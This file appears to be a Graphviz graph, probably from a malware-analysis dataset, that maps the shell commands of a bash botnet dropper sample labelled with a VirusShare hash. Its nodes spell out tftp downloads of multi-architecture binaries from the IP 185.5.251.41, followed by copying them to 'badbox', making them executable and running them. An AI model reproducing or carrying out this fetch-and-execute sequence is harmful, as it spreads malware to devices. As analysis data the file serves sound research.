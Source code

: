 digraph bash_0_VirusShare_aa2e867483e77f54dfa702a7ca859f2f {
	graph [classid=0];
	ulimit_1	 [weight="-n 1024"];
	cp_1	 [weight="/tmp/"];
	cd_1	 [weight="/tmp"];
	cd_2	 [weight="/var/run"];
	cd_3	 [weight="/mnt"];
	cd_4	 [weight="/root"];
	cd_5	 [weight="/"];
	tftp_1	 [weight="-r fyfa.mips -g 185.5.251.41"];
	cd_5 -> tftp_1;
	tftp_2	 [weight="-r fyfa.mpsl -g 185.5.251.41"];
	cd_5 -> tftp_2;
	tftp_3	 [weight="-r fyfa.sh4 -g 185.5.251.41"];
	cd_5 -> tftp_3;
	tftp_4	 [weight="-r fyfa.x86 -g 185.5.251.41"];
	cd_5 -> tftp_4;
	tftp_5	 [weight="-r fyfa.arm -g 185.5.251.41"];
	cd_5 -> tftp_5;
	tftp_6	 [weight="-r fyfa.i686 -g 185.5.251.41"];
	cd_5 -> tftp_6;
	tftp_8	 [weight="-r fyfa.i586 -g 185.5.251.41"];
	cd_5 -> tftp_8;
	tftp_9	 [weight="-r fyfa.m68k -g 185.5.251.41"];
	cd_5 -> tftp_9;
	tftp_10	 [weight="-r fyfa.spc -g 185.5.251.41"];
	cd_5 -> tftp_10;
	cat_1	 [weight="fyfa.mips badbox"];
	tftp_1 -> cat_1;
	cat_1 -> badbox_1;
	chmod_1	 [weight="+x *"];
	"./badbox_1";
	cat_2	 [weight="fyfa.mpsl badbox"];
	tftp_2 -> cat_2;
	cat_3	 [weight="fyfa.sh4 badbox"];
	tftp_3 -> cat_3;
	cat_4	 [weight="fyfa.x86 badbox"];
	tftp_4 -> cat_4;
	cat_5	 [weight="fyfa.arm badbox"];
	tftp_5 -> cat_5;
	cat_6	 [weight="fyfa.i686 badbox"];
	tftp_6 -> cat_6;
	tftp_7	 [weight="-r fyfa.pcc -g 185.5.251.41"];
	cat_7	 [weight="fyfa.pcc badbox"];
	cat_8	 [weight="fyfa.i586 badbox"];
	tftp_8 -> cat_8;
	cat_9	 [weight="fyfa.m68k badbox"];
	tftp_9 -> cat_9;
	cat_10	 [weight="fyfa.spc badbox"];
	tftp_10 -> cat_10;
}
